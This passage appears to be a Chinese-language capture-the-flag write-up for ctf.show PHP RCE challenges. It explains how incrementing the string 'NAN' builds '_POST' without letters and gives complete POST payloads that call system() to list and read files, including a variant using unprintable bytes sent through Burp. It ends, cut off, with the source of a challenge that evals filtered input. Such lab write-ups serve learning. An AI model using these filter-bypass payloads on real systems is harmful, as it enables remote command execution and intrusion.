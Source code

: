 注意：之前好奇为啥 $d1 =
‘ab’.‘cd’[0]，输出值为"abc"，这里涉及到运算优先级问题，‘cd’[0]的值为"c"，再和前面的’ab’拼接后，即"abc"。

```php
$_=(_/_._)[0];  //$_变量的值为"NAN_"[0]的值，即值为"N"
$_0=++$_;       //$_变量自增后，值为"O",且再赋值给变量$_0，且其值为"O"
$_0=++$_.$_0;   //$_变量增增后，值为"P",再拼接变量$_0的值"O",再赋值给变量$_0,即值为"PO"
++$_;++$_;      //$_变量增增后，值为"Q"、"R"
$_0.=++$_;      //变量$_0变量的值为"PO",再拼接$_变量增增后的值"S"，再赋值给变量$_0,即值为"POS"
$_0.=++$_;      //变量$_0变量的值为"POS",再拼接$_变量增增后的值"T"，再赋值给变量$_0,即值为"POST"
$_=_.$_0;       //变量$_重新赋值为"_"拼接变量$_0的值"POST",即值为"_POST"
$$_[0]($$_[1]); //替换$_0变量的值"_POST"后，即组装出 $_POST[0]($_POST[1])，以便post传参，参数名为0和1，如0参数传参为system，1参数传参为ls /，即post传参后拼接出system('ls /')命令，以便eval去执行。


//post传参，注意在&0=system&1=ls /之前的要用url编码，要不然+号会被识别为空格
ctf_show=$_=(_/_._)[0];$_0=++$_;$_0=++$_.$_0;++$_;++$_;$_0.=++$_;$_0.=++$_;$_=_.$_0;$$_[0]($$_[1]);&0=system&1=ls /
然后再cat /f1agaaa
```

另一种自增：

```php

$a=(0/0);//NAN
$a.=_;//NAN_
$a=$a[0];//N
$a++;//O
$o=$a++;//$o=$a++是先把$a的值给$o,然后再对$a进行自增，所以这一句结束的时候 $a是P，$o是O
$p=$a++;//$a=>Q,$p=>P
$a++;$a++;//R
$s=$a++;//S
$t=$a;//T
$_=_;//_
$_.=$p.$o.$s.$t;//_POST
$$_[0]($$_[1]);//$_POST[0]($_POST[1]);
```

```php
用burp把a换成不可见字符（如%ff %fe等），url编码中+会被替换成空格，所以要换成%2b（由于不可见字符的原因，所以不能用hackbar来做，而是使用bp）
```

```php
ctf_show=$%ff=(0/0);$%ff.=_;$%ff=$%ff[0];$%ff%2b%2b;$%fd=$%ff%2b%2b;$%fe=$%ff%2b%2b;$%ff%2b%2b;$%ff%2b%2b;$%fc=$%ff%2b%2b;$%fb=$%ff;$_=_;$_.=$%fe.$%fd.$%fc.$%fb;$$_[0]($$_[1]);&0=system&1=cat /f1agaaa
```

## RCE4

```php
<?php
//本题灵感来自研究Y4tacker佬在吃瓜杯投稿的shellme时想到的姿势，太棒啦~。
error_reporting(0);
highlight_file(__FILE__);

if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (is_string($ctfshow) && strlen($ctfshow) <= 84) {
        if (!preg_match("/[a-zA-Z1-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){
            eval($ctfshow);
        }else{
            echo("Are you hacking me AGAIN?");
        }
    }else{
        phpinfo();
```